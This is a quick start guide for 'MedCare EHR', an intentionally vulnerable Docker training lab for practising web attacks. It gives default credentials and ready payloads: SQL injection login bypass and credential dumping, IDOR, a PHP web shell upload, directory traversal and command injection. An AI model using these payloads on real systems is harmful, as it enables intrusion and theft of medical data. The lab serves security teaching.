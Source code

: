 # MedCare EHR - Quick Start Guide

## ⚡ 5-Minute Setup

### Step 1: Navigate to Directory
```bash
cd docker-lab/services/ehr-webapp
```

### Step 2: Start Application
```bash
docker-compose up -d
```

### Step 3: Wait for Initialization (30 seconds)
```bash
docker-compose logs -f
```

### Step 4: Access Application
```
http://localhost:8080
```

### Step 5: Login
```
Username: admin
Password: admin123
```

---

## 🎯 Quick Tests

### Test 1: SQL Injection Login Bypass
```
Username: admin' OR '1'='1' -- 
Password: anything
```
✅ Should login successfully

### Test 2: Patient Search SQL Injection
```
Search: ' UNION SELECT id,username,password,email,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20 FROM users -- 
```
✅ Should display user credentials

### Test 3: IDOR Vulnerability
```
http://localhost:8080/dashboard.php?patient_id=1
http://localhost:8080/dashboard.php?patient_id=2
```
✅ Should access any patient record

### Test 4: File Upload Web Shell
Create `shell.php`:
```php
<?php system($_GET['cmd']); ?>
```

Upload via: `http://localhost:8080/upload.php`

Access: `http://localhost:8080/uploads/shell.php?cmd=whoami`

✅ Should execute commands

### Test 5: Directory Traversal
```
http://localhost:8080/settings.php?file=.env.example
```
✅ Should display credentials

### Test 6: Command Injection
```
http://localhost:8080/settings.php?ping=localhost;whoami
```
✅ Should execute system commands

---

## 📊 Included Data

- **10 Users**: admin, doctors, nurses, patients
- **20 Patients**: Synthetic HIPAA-compliant data
- **Medical Records**: Diagnoses, treatments, prescriptions
- **Appointments**: Scheduled patient visits

---

## 🛠️ Common Commands

### View Logs
```bash
docker-compose logs -f
```

### Stop Application
```bash
docker-compose down
```

### Reset Everything
```bash
docker-compose down -v
docker-compose up -d
```

### Access Database
```bash
docker exec -it ehr_database mysql -uwebapp -pwebapp123 healthcare_db
```

### Access Web Container
```bash
docker exec -it ehr_webapp bash
```

---

## 📋 All Default Credentials

### Web Application Users
| Username | Password | Role |
|----------|----------|------|
| admin | admin123 | Administrator |
| doctor1 | doctor123 | Doctor |
| doctor2 | password | Doctor |
| nurse1 | nurse123 | Nurse |
| patient1 | patient123 | Patient |
| test | test | Patient |

### Database
| User | Password |
|------|----------|
| root | root123 |
| webapp | webapp123 |

---

## 🎯 Vulnerability Checklist

Try exploiting these vulnerabilities:

- [ ] SQL Injection (Login)
- [ ] SQL Injection (Search)
- [ ] Broken Authentication
- [ ] IDOR (Patient Records)
- [ ] XSS (Medical Notes)
- [ ] File Upload (Web Shell)
- [ ] Directory Traversal
- [ ] Command Injection
- [ ] Information Disclosure
- [ ] Weak Session Management
- [ ] Missing Access Controls
- [ ] Sensitive Data Exposure

---

## ⚠️ Troubleshooting

### Port 8080 Already in Use
```bash
# Change port in docker-compose.yml
ports:
  - "8081:80"
```

### Database Not Ready
```bash
# Wait 30 seconds, then check
docker-compose ps
docker-compose logs ehr-database
```

### Can't Upload Files
```bash
# Fix permissions
docker exec ehr_webapp chmod 777 /var/www/html/uploads
```

---

## 📚 More Information

- **Full Documentation**: README.md
- **Deployment Guide**: DEPLOYMENT_GUIDE.md
- **Attack Mapping**: MITRE_ATTACK_MAPPING.md

---

## 🚨 Security Warning

**This application is INTENTIONALLY VULNERABLE**

- Use ONLY in isolated lab environments
- NEVER expose to the internet
- NEVER use with real data
- For educational purposes only

---

**Ready to hack! 🎯**

Start testing vulnerabilities at: http://localhost:8080

